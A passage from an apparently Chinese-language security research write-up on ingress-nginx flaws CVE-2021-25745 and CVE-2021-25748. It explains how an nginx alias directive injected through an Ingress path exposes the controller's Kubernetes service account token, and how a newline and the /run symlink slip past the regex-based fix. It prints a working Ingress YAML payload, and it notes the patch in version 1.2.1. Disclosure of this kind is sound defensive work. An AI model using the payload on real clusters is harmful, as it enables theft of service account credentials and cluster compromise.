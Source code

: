   
  
这是使用alias指令payload后生成的 nginx.conf 内容：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/0Z0LqMyVGaSSoJzx1XUPCogV9YuoLtjF8oWRia50ExS8MHSichZUbHict2T2pcKsLNV9ZAz8IhkXnAhB4IMPd7Gag/640?wx_fmt=jpeg "")  
  
  
现在我们可以从  http:///gaf/token访问 Ingress 控制器服务帐户令牌。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/0Z0LqMyVGaSSoJzx1XUPCogV9YuoLtjFYCttNibH6I4Kmm8VOHvLZQmonwOia6FZ3gPu8m0kBibCSgiaxorNfgEmiaQ/640?wx_fmt=jpeg "")  
  
  
**3、CVE-2021-25748：修复和绕过**  
  
  
作为 CVE-2021-25745 修复的一部分，Kubernetes 团队为 Ingress 对象规范实施了深度检查（ https://github.com/kubernetes/ingress-nginx/pull/8456/commits/83107e0af40b99066b6a72faf33d95a969d17b18 ）。  
  
  
该检查器使用正则表达式模式列表来验证 Ingress 字段的值，如下所示。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/0Z0LqMyVGaSSoJzx1XUPCogV9YuoLtjFia5SzgsichNgU1bWdMuias82kVm2wuBysvZiaRnKs34go728Wd1fE0khfw/640?wx_fmt=jpeg "")  
  
  
虽然整体实现实现了其目标，但我们仍然发现上述正则表达式模式存在两个问题：  
  
- / var/run链接到/run。所以，我们可以访问/run/secrets/kubernetes.io/serviceaccount/token  
  
- 我们可以使用换行符 (\n) 绕过 '.*;' 查看。  
  
这是一个绕过正则表达式payload示例，正如我们所解释的：  
  
  
```
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
name: gaf-ingress
annotations:
kubernetes.io/ingress.class: "nginx"
spec:
rules:
- http:
paths:
- path: "/gaf{alias #\n/run/secrets/kubernetes.io/serviceaccount/;}location ~* ^/aaa"
pathType: Prefix
backend:
service:
name: some-service
port:
number: 5678
```  
  
  
  
上述情况已经报告给了Kubernetes，随后在 NGINX Ingress Controller 的 1.2.1 版本中得到修复。作为更新修复的一部分， alias 和 root 指令已被删除，这使我们滥用正则表达式模式的方式无效。  
  
  